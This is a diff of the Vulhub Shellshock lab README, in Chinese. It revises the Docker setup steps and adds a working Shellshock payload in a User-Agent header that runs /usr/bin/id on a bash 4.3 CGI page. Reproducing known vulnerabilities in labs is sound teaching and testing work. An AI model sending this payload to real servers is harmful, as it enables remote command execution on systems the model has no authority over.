

update shellshock

Changed region(s): [[0.0, 0.0, 1.0, 1.0], [0.0, 0.0307, 0.0619, 0.0922]]

diff --git a/docs/vulhub/bash/shellshock/README.md b/docs/vulhub/bash/shellshock/README.md
@@ -3,18 +3,18 @@
 编译运行：
 
 ```
-docker-compose build
 docker-compose up -d
 ```
 
-访问`http://your-ip/`，有两个文件：
+服务启动后，有两个页面`http://your-ip:8080/victim.cgi`和`http://your-ip:8080/safe.cgi`。其中safe.cgi是最新版bash生成的页面，victim.cgi是bash4.3生成的页面。
 
- - safe.cgi
- - victim.cgi
+将payload附在User-Agent中访问victim.cgi：
 
-其中safe.cgi是最新版bash生成的页面，victim.cgi是bash4.3生成的页面。
+```
+User-Agent: () { foo; }; echo Content-Type: text/plain; echo; /usr/bin/id
+```
 
-带上payload访问victim.cgi，命令成功被执行：
+命令成功被执行：
 
 ![](1.png)
 
